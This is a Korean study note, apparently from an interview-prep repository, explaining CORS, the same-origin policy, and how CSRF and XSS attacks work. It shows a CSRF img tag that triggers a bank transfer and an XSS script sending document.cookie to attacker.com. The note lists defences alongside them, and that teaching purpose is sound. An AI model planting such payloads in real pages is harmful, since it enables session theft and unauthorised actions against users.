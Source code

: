 # CORS

**CORS(Cross-Origin Resource Sharing)는 무엇이며 왜 필요한가요?**

### CORS란?

- Cross-Origin Resource Sharing
- 브라우저에서 다른 출처(origin)의 리소스에 접근하려고 할 때 그 요청을 허용할지 말지 서버가 결정할 수 있게 해주는 메커니즘
- 동일 출처 정책 안에서 서버의 허용으로 접근이 가능해지는 "안전 예외 규칙"

### Same-Origin Policy란?

- 줄여서 SOP
- 동일 출처 정책
- 브라우저는 기본적으로 다른 출처의 요청을 차단

### 출처란?

- `프로토콜+도메인+포트번호`가 모두 같아야 같은 출처

```txt
http://example.com     ✅ 같은 출처
http://example.com:3000 ❌ 다른 출처 (포트 다름)
https://example.com     ❌ 다른 출처 (프로토콜 다름)
http://api.example.com  ❌ 다른 출처 (서브도메인 다름)
```

### CORS가 필요한 이유

- 프론트엔드와 백엔드가 다른 도메인일 경우 데이터를 주고받기 위해
- 보안을 위해 다른 출처의 API나 리소스에 접근하는 것을 차단하지만 현실적으로 다른 서버와 통신하는 경우가 많음

- 예시
  - `http://localhost:3000` -> `http://api.example.com` 요청
  - 웹 프론트엔드에서 다른 도메인의 이미지/데이터 요청

### CORS 작동 방식

1. 브라우저 : 서버 요청
2. 서버 : 응답 헤더에 허용 출처 명시
   예시 )

   ```
   HTTP/1.1 200 OK
   Access-Control-Allow-Origin: https://frontend.example.com
   Access-Control-Allow-Methods: GET, POST
   Access-Control-Allow-Headers: Content-Type, Authorization
   ```

3. 브라우저 : 응답을 확인하고 허용됨 판단

### CORS 에러

#### 발생하는 경우

- 서버가 `Access-Control-Allow-Origin`을 안 보내는 경우
- 현재 요청한 출처를 허용하지 않는 경우
- 인증 정보 포함 요청인데 `credentials`관련 설정이 빠져있는 경우
- 등등 다양함

#### 오류 메시지 예시

```
Access to fetch at 'http://api.example.com' from origin 'http://localhost:3000' has been blocked by CORS policy.
```

---

부가 질문

### 동일 출처 정책이 필요한 이유

1.  개인 정보 유출 방지

- 브라우저는 자동으로 쿠키, 세션, 로컬스토리지를 요청에 포함
- 만약 다른 출처의 JS가 내 쿠키에 접근할 수 있다면 로그인 상태, 토큰, 세션 탈취 가능

2. CSRF(Cross Site Request Forgery)공격 방지

- 악성사이트에서 이용자 몰래 이용자의 권한으로 호출해서 악의적인 요청을 보내는 공격 방식

3. XSS+ 데이터 탈취 차단

-

### CSRF 예시

1. 사용자가 이미 은행 사이트 A(ex: https://bank.com)에 로그인 => 세션 쿠키가 브라우저에 있음
2. 악성 사이트 B에 접속
3. 사이트 B 안의 이미지 태그 또는 JS가 이상한 요청

```
<img src="https://bank.com/transfer?amount=1000000&to=hacker123" />
```

4. 브라우저는 쿠키 자동 포함 -> 은행 사이트에 로그인된 세션으로 요청 전송

=> 하지만 공격자가 정보가 담긴 응답을 읽는것을 막아줌

##### \* SOP가 부족한 이유

- GET 요청이나 단순한 POST 요청은 브라우저가 의심없이 보냄
- 응답 결과나 쿠키 내용은 SOP로 인해 evil.com에서 읽을 수 없음
- 송금, 삭제 등의 의도치 않은 피해를 입을 순 있음
- 다른 출처의 응답을 읽지 못하게 막아주는 SOP 만으로는 부족. SOP를 우회

##### \* 추가 대응

- CSRF 토큰을 요청 시마다 포함
- `SameSite`쿠키 설정으로 외부 요청시 쿠키를 보내지 않게 하기

### XSS 예시

1. 공격자 게시판에 악성 스크립트 게시

```
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

2. 게시글을 읽는다.
3. 브라우저에서 이 스크립트 실행
4. `document.cookie`로 사용자의 로그인 정보나 토큰을 읽음
5. 그 정보를 공격자 서버(attacker.com)로 전송

=> 공격자가 전송된 응답을 읽으려 할 때 SOP 작동

##### \* SOP가 부족한 이유

- 정보자체를 보내는 것을 막지 못함

##### \* 추가 대응

- 입력 필터링
- CSP
- 쿠키 보안 설정
